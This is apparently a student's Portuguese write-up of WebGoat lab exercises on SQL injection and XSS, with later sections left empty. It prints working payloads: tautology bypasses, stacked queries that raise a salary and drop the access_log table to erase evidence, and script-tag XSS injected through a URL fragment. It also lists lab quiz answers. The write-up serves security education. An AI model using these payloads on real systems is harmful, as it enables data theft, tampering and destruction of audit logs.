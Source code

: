 # Aula 11

## Exercício 1 - *Injection*

### Pergunta 1.1

Os primeiros 4 desafios (Nº 2, 3, 4, 5) são apenas *queries* básicas, em que já temos permissão para as executar, apenas temos de saber a sintaxe do comando SQL
#### Passo 2
```select department from employees where userid=96134```
#### Passo 3
```update employees set department='Sales' where first_name='Tobi'```
#### Passo 4
```alter table employees add phone varchar(20); ```
#### Passo 5
```GRANT ALTER TABLE TO 'UnauthorizedUser'```
#### Passo 9
```SELECT * FROM user_data WHERE first_name = 'John' and last_name = '' or '1' = '1'```
Esta *SQL Injection* funciona porque '1' = '1' é sempre verdadeiro (*true*). Portanto, temos de selecionar ' na primeira opção para fechar a *string* do *lastname*. Optar pelo OR para a condição do *WHERE* ser verdadeiro para todos os registos, e por fim escolher '1' = '1 sem fechar a plica, pois a mesma já está na *string* da *query*.
#### Passo 10
``` SELECT * From user_data WHERE Login_Count = 1 and userid= 1 or 1=1 ```
Login\_count não está susceptível a SQL Injection pois este input está parametrizado. Como o *userid* espera receber um número, não há plicas à volta deste *input*, pelo que, para completar este desafio basta por um qualquer valor inteiro no *logincount*, e introduzir ```1 or 1=1``` no *userid*. 
#### Passo 11
``` ' OR '1' = '1``` - > No campo *Authentication TAN* e como resultado obtém-se a tabela *employees* com todos os dados, incluíndo os salários.
#### Passo 12
``` '; update employees set salary = 120000 where auth_tan = '3SL99A ``` 
Com os primeiros caractéres terminamos a *query*, encadeando de seguida uma outra que altera o valor o salário. A plica final não é fechada pois já está presente na *string* da *query*.

#### Passo 13
``` ';drop table access_log; select * from access_log where action =' ``` 
Novamente, encadeamos uma *query* SQL que apaga a tabela com os *logs*. Depois, para não haver erros de sintaxe, junta-se uma outra *query*, que termina com a plica ('). Como resultado, a tabela de *logs* é apagada, eliminando assim as "provas" dos "ataques" anteriores.


## Exercício 2 - *XSS*

### Pergunta 2.1
#### Passo 2
Sim, as cookies são iguais.
#### Passo 7
``` <script>alert("Hello")</script>```
O campo vulnerável é o "Enter your credit card number"
#### Passo 10
```start.mvc#test```
#### Passo 11
```http://localhost:8080/WebGoat/start.mvc#test/%3Cscript%3Ewebgoat.customjs.phoneHome()%3C%2Fscript%3E```

phone home said {"lessonCompleted":true,"feedback":"Congratulations. You have successfully completed the ass<ignment.","output":"phoneHome Response is 1177239543"}
#### Passo 12
1. Solução 4
2. Solução 3
3. Solução 1 
4. Solução 2
5. Solução 4


## Exercício 3 - Quebra na Autenticação

### Pergunta 3.1



## Exercício 4 - *Vulnerable components*

### Pergunta 4.1


